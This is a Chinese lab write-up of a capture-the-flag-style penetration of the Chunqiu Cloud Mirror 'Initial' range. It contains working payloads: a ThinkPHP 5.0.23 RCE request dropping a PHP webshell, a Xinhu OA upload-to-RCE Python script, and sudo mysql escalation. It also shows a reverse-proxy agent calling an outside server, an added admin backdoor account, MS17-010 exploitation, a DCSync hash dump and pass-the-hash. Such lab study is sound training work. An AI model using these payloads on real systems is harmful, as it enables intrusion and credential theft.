







+++
title = "春秋云镜Initial"
slug = "chunqiu-cloud-mirror-initial"
description = "thinkphp5.0.23RCE、MS17-010、DCSync"
date = "2025-08-09T21:49:36"
lastmod = "2025-08-09T21:49:36"
image = ""
license = ""
categories = ["春秋云镜"]
tags = ["Pentest"]
+++

接下来的日子，博客会多一些春秋云镜的靶场wp，我会尽可能的写清楚，而不是写详细，我看过很多网上的WriteUp，他们大部分只说了步骤，但是从未提及为何

## flag1

看到网站logo为thinkphp的logo，



NDAY，发现可以直接RCE，运行`curl ip.sb`发现出网，可以弹shell，也可以写马，这里选择写马

```http
POST /index.php?s=captcha HTTP/1.1
Host: 39.99.234.190
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.99.234.190/index.php?s=captcha
Accept-Encoding: gzip, deflate
Pragma: no-cache
Origin: http://39.99.234.190
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cache-Control: no-cache
Content-Length: 84

_method=__construct&filter%5B%5D=system&method=get&server%5BREQUEST_METHOD%5D=echo PD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=|base64 -d > shell.php
```

查看flag权限不够，sudo提权

```bash
(www-data:/var/www/html) $ sudo -l
Matching Defaults entries for www-data on ubuntu-web01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu-web01:
    (root) NOPASSWD: /usr/bin/mysql


sudo mysql -e '\! /bin/sh'

sudo mysql -e '\! find / -name flag*'

sudo mysql -e '\! tac /root/flag/flag01.txt'
flag01: flag{60b53231-
```

## flag2

上传fscan进行内网信息收集

```bash
(www-data:/tmp) $ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.1.15  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe37:19b9  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:37:19:b9  txqueuelen 1000  (Ethernet)
        RX packets 400609  bytes 182951339 (182.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 314801  bytes 33381424 (33.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1094  bytes 96715 (96.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1094  bytes 96715 (96.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


```

`./fscan -h 172.22.1.15/24`

```
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.15     is alive
(icmp) Target 172.22.1.21     is alive
(icmp) Target 172.22.1.18     is alive
[*] Icmp alive hosts len is: 4
172.22.1.18:80 open
172.22.1.2:88 open
172.22.1.15:22 open
172.22.1.15:80 open
172.22.1.2:135 open
172.22.1.21:445 open
172.22.1.21:135 open
172.22.1.21:139 open
172.22.1.2:445 open
172.22.1.18:135 open
172.22.1.18:3306 open
172.22.1.18:445 open
172.22.1.18:139 open
172.22.1.2:139 open
172.22.1.15:10010 open
[*] alive ports len is: 15
start vulscan
[*] WebTitle http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] WebTitle http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] NetInfo 
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetInfo 
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] NetInfo 
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[+] MS17-010 172.22.1.21        (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] OsInfo 172.22.1.2   (Windows Server 2016 Datacenter 14393)                                                                                                                                                    
[*] WebTitle http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[*] NetBios 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] NetBios 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600
[*] NetBios 172.22.1.2      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[+] PocScan http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1
```

整理一下信息

- 172.22.1.21  XIAORANG-WIN7.xiaorang.lab  MS17-010
- 172.22.1.18  XIAORANG-OA01.xiaorang.lab(信呼OA)
- 172.22.1.15  已经被控 
- 172.22.1.2  DC01.xiaorang.lab

使用**stowaway**搭建内网代理 https://github.com/ph4ntonn/Stowaway/releases/tag/v2.2 搭建反向代理，把`admin`放在服务器上面，`agent`放在靶机上面

```bash
./linux_x64_admin -l 1234 -s 123

./linux_x64_agent -c 156.238.233.93:1234 -s 123 --reconnect 8

use 0
socks 5555
```

现在我们就搭建好了socks5的代理了，使用`proxifier`弄一个全局代理



信呼OA这个系统刚好版本也是可以用NDAY打的

```php
<?php eval($_POST[1]);?>
```

```python
import requests

session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?a=system('dir');")
print(r.text)


```

成功getshell，得到flag2，权限足够，新建一个用户登录上去

```bash
net user test1 baozongwi123! /add
net localgroup administrators test1 /add
```

并不是域用户，接着去打永恒之蓝，先在kali弄好socks代理

```bash
sudo vim /etc/proxychains4.conf

socks5 156.238.233.93 5555
```

## flag3

利用msf攻击

```bash
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
exploit
shell
chcp 65001

net user /domain
```

本来想的是直接新建用户上去的，但是发现一个问题，就是链接之后直接蓝屏了（忘记了）



确认是域用户

```bash
# 查看域管理员
net group "Domain Admins" /domain

# 查看企业管理员  
net group "Enterprise Admins" /domain

# 查看域控制器
net group "Domain Controllers" /domain

# 查看所有域计算机
net group "Domain Computers" /domain

# 查看域信息
nltest /domain_trusts

# 查看域控制器详细信息
nslookup DC01.xiaorang.lab

# 查看当前机器在域中的状态
nltest /sc_query:xiaorang.lab
```

上传sharphound收集信息

```bash
exit

cp /home/kali/桌面/Pentest/BloodHound-linux-x64/resources/app/Collectors/SharpHound.exe /tmp/SharpHound.exe
upload /tmp/SharpHound.exe C:\\Windows\\temp\\SharpHound.exe

shell
cd C:\Windows\temp
SharpHound.exe -c all


exit
download C:\\Windows\\Temp\\20250617200323_BloodHound.zip /tmp/

# 也可以下载到你的工作目录
download C:\\Windows\\Temp\\20250617200323_BloodHound.zip /home/kali/桌面/
```



查看当前用户与域的关系



> The computer XIAORANG-WIN7.XIAORANG.LAB has the DS-Replication-Get-Changes-All permission on the domain XIAORANG.LAB.
>
> 计算机 XIAORANG-WIN7.XIAORANG.LAB 对域 XIAORANG.LAB 具有 DS-Replication-Get-Changes-All 权限。
>
> Individually, this edge does not grant the ability to perform an attack. However, in conjunction with DS-Replication-Get-Changes, a principal may perform a DCSync attack.
>
> 单独而言，此边缘不授予执行攻击的能力。但是，与 DS-Replication-Get-Changes 结合使用时，委托人可以执行 DCSync 攻击。
>
> The computer XIAORANG-WIN7.XIAORANG.LAB has the DS-Replication-Get-Changes permission on the domain XIAORANG.LAB.
>
> 计算机 XIAORANG-WIN7.XIAORANG.LAB 对域 XIAORANG.LAB 具有 DS-Replication-Get-Changes 权限。
>
> Individually, this edge does not grant the ability to perform an attack. However, in conjunction with DS-Replication-Get-Changes-All, a principal may perform a DCSync attack.
>
> 单独而言，此边缘不授予执行攻击的能力。但是，与 DS-Replication-Get-Changes-All 结合使用时，委托人可以执行 DCSync 攻击。

所以可以利用这个用户进行 DCSync攻击，现在需要获得`NThash`



> When a user authenticates to a computer, they often leave credentials exposed on the system, which can be retrieved through LSASS injection, token manipulation/theft, or injecting into a user's process.
> 当用户向计算机进行身份验证时，他们通常会在系统上公开凭据，这些凭据可以通过 LSASS 注入、令牌作/盗窃或注入用户进程来检索。

所以可以利用猕猴桃获得管理员的`NThash`，但是我们不用传猕猴桃，因为有msf会话，可以直接使用其中的模块

```bash
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
exit
```



再直接横向即可

```bash
proxychains4 impacket-wmiexec xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8 -codec gbk
type Users\Administrator\flag\flag03.txt
```

